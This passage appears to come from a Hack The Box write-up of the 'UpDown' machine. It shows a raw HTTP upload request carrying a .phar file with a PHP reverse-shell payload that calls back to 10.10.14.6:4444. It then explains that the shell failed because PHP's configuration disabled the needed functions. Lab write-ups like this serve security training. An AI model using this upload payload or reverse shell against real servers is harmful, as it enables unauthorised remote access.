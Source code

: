 At this point, I thought I had an easy reverse shell.

```http
POST / HTTP/1.1
Host: dev.siteisup.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------27067171744469957932680288557
Content-Length: 428
Origin: http://dev.siteisup.htb
Connection: close
Referer: http://dev.siteisup.htb/
Upgrade-Insecure-Requests: 1
Special-Dev: only4dev

-----------------------------27067171744469957932680288557
Content-Disposition: form-data; name="file"; filename="test.phar"
Content-Type: text/plain

<?php
`bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'`;
?>

https://app.hackthebox.com
-----------------------------27067171744469957932680288557
Content-Disposition: form-data; name="check"

Check
-----------------------------27067171744469957932680288557--
```

I sent a phar file with the reverse shell and opened it, but it failed. I tried different reverse shells, they all failed.

I changed my code to execute `phpinfo()`. This showed me why my reverse shells were all failing.

![Disabled Functions](/assets/images/2023/01/UpDown/DisabledFunctions.png "Disabled Functions")

The functions I was using to get the shell were all disabled by PHP configuration. I tried to use `ini_set` to enable them. But they cannot be enabled at runtime.
